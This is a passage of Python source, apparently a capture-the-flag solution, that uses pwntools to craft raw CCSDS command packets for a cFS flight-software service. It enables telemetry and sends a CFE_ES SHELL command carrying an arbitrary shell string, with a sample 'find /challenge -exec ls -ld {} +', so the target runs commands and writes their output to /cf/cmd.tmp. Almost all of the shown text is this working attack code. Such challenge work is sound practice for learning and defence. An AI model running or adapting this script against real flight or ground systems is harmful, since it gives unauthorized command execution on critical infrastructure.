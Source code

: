 ```python
    output = recv_from_first_conn()
    while kw not in output:
        output = recv_from_first_conn()

recv_from_first_conn_until_keyword('Stop FLYWHEEL')
cfs_service = remote(remote_addr, remote_port)

def send_enable_telemetry():
    """
    Send a KIT_TO ENABLE_TELEMETRY command

    Address   Data                                             Ascii
    ---------------------------------------------------------------------------
    00000000: 18 80 C0 00 00 11 07 9A 31 32 37 2E 30 2E 30 2E          127.0.0.
    00000010: 31 00 00 00 00 00 00 00                          1
    """
    payload = bytearray()
    payload += struct.pack('>HHHBB', 6272, 49152, 17, 7, 0)
    # IP Address
    payload += b'127.0.0.1\x00\x00\x00\x00\x00\x00\x00'
    assert len(payload) == 0x18
    # Adjust checksum
    cksum = 0xff
    for x in payload:
        cksum ^= x
    payload[7] = cksum
    logger.info("Send enable telemetry")
    cfs_service.send_raw(payload)
    output = recv_from_first_conn_until_keyword('Telemetry output enabled for IP 127.0.0.1')

def send_shell_command(cmd):
    """
    Send a CFE_ES SHELL command

    Address   Data                                             Ascii
    ---------------------------------------------------------------------------
    00000000: 18 06 C0 00 00 81 03 E3 66 69 6E 64 20 2F 63 68          find /ch
    00000010: 61 6C 6C 65 6E 67 65 20 2D 65 78 65 63 20 6C 73  allenge -exec ls
    00000020: 20 2D 6C 64 20 7B 7D 20 2B 00 00 00 00 00 00 00   -ld {} +
    00000030: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
    00000040: 00 00 00 00 00 00 00 00 2F 63 66 2F 63 6D 64 2E          /cf/cmd.
    00000050: 74 6D 70 00 00 00 00 00 00 00 00 00 00 00 00 00  tmp
    00000060: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
    00000070: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
    00000080: 00 00 00 00 00 00 00 00
    """
    # CCSDS Stream ID and sequence, Length, FuncCode, checksum
    payload = bytearray()
    payload += struct.pack('>HHHBB', 6150, 49152, 129, 3, 0)
    # Cmd
    cmd_bytes = cmd.encode()
    assert len(cmd_bytes) <= 0x40
    payload += cmd_bytes + b'\x00' * (0x40 - len(cmd_bytes))
    # output filename
    payload += b'/cf/cmd.tmp' + b'\x00' * 0x35
    assert len(payload) == 0x88
    # Adjust checksum
    cksum = 0xff
    for x in payload:
        cksum ^= x
    payload[7] = cksum
    logger.debug("Send cmd %r", cmd)
    cfs_service.send_raw(payload)
```